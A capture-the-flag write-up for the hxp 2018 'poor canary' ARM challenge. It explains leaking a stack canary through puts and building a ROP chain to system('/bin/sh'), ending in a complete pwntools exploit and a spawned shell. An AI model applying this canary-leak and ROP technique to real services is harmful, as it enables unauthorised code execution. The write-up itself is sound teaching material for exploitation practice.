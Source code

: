 # hxp 2018 poor canary

This writeup is based off of: https://ctftime.org/writeup/12568


If you want to use gdb on this challenge, if you don't already you will have to install and use `gdb-multiarch`:

```
$   sudo apt-get install gdb-multiarch
$   gdb-multiarch
```

Let's take a look at the binary:

```
$	file canary
canary: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=3599326b9bf146191588a1e13fb3db905951de07, not stripped
$	pwn checksec canary
[*] '/home/guyinatuxedo/Desktop/canary/poor_canary/canary'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```

So we can see it is a 32 bit ARM binary, with a stack canary and non executable stack. In order to run this challenge on linux, you will need to install `qemu-user`:

```
$	sudo apt-get install qemu-user
```

Now let's run the binary:

```
$	qemu-arm canary
Welcome to hxp's Echo Service!
> 15935728
15935728
```

So we can see it essentially just scans in input, and the prints it. Let's take a look at the source code which we are given:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    char buf[40];
    puts("Welcome to hxp's Echo Service!");
    while (1)
    {
        printf("> ");
        ssize_t len = read(0, buf, 0x60);
        if (len <= 0) return 0;
        if (buf[len - 1] == '\n') buf[--len] = 0;
        if (len == 0) return 0;
        puts(buf);
    }
}
const void* foo = system;
```

So we can see here, that there is a bug where it scans `0x60` `96` bytes of data in a `40` byte buffer, so we have a buffer overflow. We can verify with this:

```
$	python -c 'print "0"*0x60' | qemu-arm canary
Welcome to hxp's Echo Service!
> 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000X
> *** stack smashing detected ***: canary terminated
qemu: uncaught target signal 6 (Aborted) - core dumped
Aborted (core dumped)
```

### Canary

The first thing we will need to get around is the stack canary. To do this, we can use the puts statement. Essentially how this will work, is we will insert 41 bytes worth of data. This will bring our data right up to the stack canary, and overwrite the least significant byte of it. When puts is called on a string, it prints characters until it reaches a null byte. Since there will be no null bytes between the start of our input and the stack canary, it will also print out the stack canary so we will have it. However the reason why we overwrite the least significant byte of the stack canary, is because the stack canary is null terminated, meaning that it is a null byte that would stop this type of leak from happening. However since we know what the byte is, we can just read in the other three bytes, slap on a null byte as the least significan byte, and we will have the stack canary.

### Calling System

Now with the source code, we can see that the function `system` has a hard coded address in the binary so we won't need an infoleak to figure out where `system` is. So we can just use a ROP gadget to call it. However we will need to find the string `/bin/sh`, which has a static address in the binary:

```
$   python Ropper.py --file canary --string "/bin/sh"


Strings
=======

Address     Value    
-------     -----    
0x00071eb0  /bin/sh

``` 

So we can see the address of "/bin/sh" is `0x71eb0`. Now we just need a ROP gadget which will pop a value into the `r0` and `pc` registers (`r0` because that is where it will expect the first argument for system, and `pc` because that is where it will expect the address which will be executed). We can use Ropper to find this

```
$   python Ropper.py --file canary | grep pop | grep r0 | grep pc
```

looking through the long list of results, we see one that works:

```
0x00026b7c: pop {r0, r4, pc};
```

This gadget will pop values into the `r0` and `pc` registers for us. It will also pop a value into the `r4` register, however we will just need to have 4 bytes of filler data there for it (it doesn't matter too much what goes there). Next we need to find out the address of `system`. We can use `objdump` for this, however not the standard version since we are dealing with ARM:

first install it:
```
$   sudo apt-get install binutils-arm-none-eabi
```

Then we can find the address:

```
$   arm-none-eabi-objdump -D canary | grep libc_system
00016d90 <__libc_system>:
   16d94:   0a000000    beq 16d9c <__libc_system+0xc>
```

Now we also need to know how much space to put after the stack canary, and before the return address. If we take a quick look at the binary in Binja, we can see that the stack canary is located `0x14` bytes above the start of the stack (we can tell that this is the stack canary, since it is a value being loaded before the stack check, which checks the stack canary):

```
ldr     r2, [sp,  #0x2c] {var_14}
ldr     r3, [r3]  {__stack_chk_guard}
cmp     r2, r3
bne     0x10590
```

So the end of the stack canary would put as at `0x10` bytes above the start of the stack. And when we take a look at when the function returns, we can see that the return address is stored at `0x4` bytes above the start of the stack. We can tell this since it is the value being popped into the `pc` register, which is how ARM returns to a different address:

```
pop     {r4, r5, pc} {__saved_r4} {__saved_r5} {var_4}
```

Since the end of the stack canary puts us at `0x10`, and the return address starts at `0x4`, that leaves us with `0x10 - 0x4 = 0xc (or 12)` bytes worth of filler data between the stack canary and the return address:

Putting it all together, this is what our payload looks like (after the stack canary leak):

```
*   40 bytes of filler data
*   4 byte stack canary
*   12 bytes of filler data to return address
*   4 byte rop gadget pop {r0, r4, pc} 0x26b7c
*   4 byte "/bin/sh" address 0x00071eb0
*   4 byte of filler
*   4 byte System address 0x16d90
```

### Exploit

Here is our finished exploit:

```
# This exploit is based off of: https://ctftime.org/writeup/12568

from pwn import *

target = process(['qemu-arm', 'canary'])

system = p32(0x16d90)
binsh = p32(0x71eb0)

# pop {r0, r4, pc}
gadget = p32(0x26b7c)

def clearInput():
    print target.recvuntil('>')

def leakCanary():
    target.send("0"*41)
    print target.recvuntil('0'*41)
    leak = target.recv(3)
    canary = u32("\x00" + leak)
    print "Stack canary: " + hex(canary)
    return canary
clearInput()

canary = leakCanary()

payload = ""
payload += "0"*40
payload += p32(canary)
payload += "1"*12
payload += gadget
payload += binsh
payload += "2"*4
payload += system

target.sendline(payload)
target.sendline("")

target.interactive()
```

and when we run it:
```
$   python exploit.py 
[+] Starting local process '/usr/bin/qemu-arm': pid 21747
Welcome to hxp's Echo Service!
>
 00000000000000000000000000000000000000000
Stack canary: 0x75fc3600
[*] Switching to interactive mode

> 0000000000000000000000000000000000000000
> $ ls
canary              qemu_canary_20190118-221712_15689.core  ROPgadget.py
canary.c          qemu_canary_20190120-214003_21552.core  Ropper.py
exploit.py          qemu_canary_20190120-214234_21607.core
peda-session-unknown.txt  qemu_canary_20190120-214255_21625.core
$ w
 21:51:30 up 18:45,  1 user,  load average: 0.07, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               Thu19   ?xdm?   3:23   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
```

just like that, we solved the challenge!
